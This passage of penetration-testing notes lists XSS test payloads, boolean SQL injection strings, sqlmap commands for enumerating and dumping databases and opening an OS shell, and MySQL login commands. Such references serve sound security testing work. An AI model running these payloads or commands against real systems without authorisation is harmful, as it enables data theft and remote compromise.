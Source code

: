 Check for XSS

```
<script>alert(1)</script>
<i>some text</i>

```

Steal cookies:

```
<script>alert(document.cookie)</script>

```

### SQL Injection

Same injection points as XSS.

Boolean Injection:

-   and 1=1; -- -
-   or 'a'='a'; -- -

Once you determine that a site is vulnerable to SQLi, automate with SQL Map.

```
$ sqlmap -u <url>
$ sqlmap -u <url> -p <parameter> #GET e POST
$ sqlmap -u <url> --tables
$ sqlmap -u <url> -D <database name> -T <table name> --dump

# Getting database names
$ sqlmap -u 'http://example.com/view.php?id=1141' --dbs 
# Getting table names
$ sqlmap -u 'http://example.com/view.php?id=1141' -D <DB_name> --tables 
# Getting columns
$ sqlmap -u 'http://example.com/view.php?id=1141' -D <db_name> -T <tbl_name> --columns 
# To dump whole table remove column specification from the command and use only --dump option
$ sqlmap -u 'http://example.com/view.php?id=1141' -D <DB_name> -T <tbl_name> -C <column_name_comma_separate> --dump 

#Get Shell
$ sqlmap -r request -p title --os-shell
```

## SQL and MySQL Commands

### Logging into MySQL Database with Password

    $ mysql -u USERNAME -pPASSWORD (no space after) -h HOST DB
    $ mysql --user=root --port=13306 -p -h 172.16.64.81

### Navigational Commands (for Post-Login)
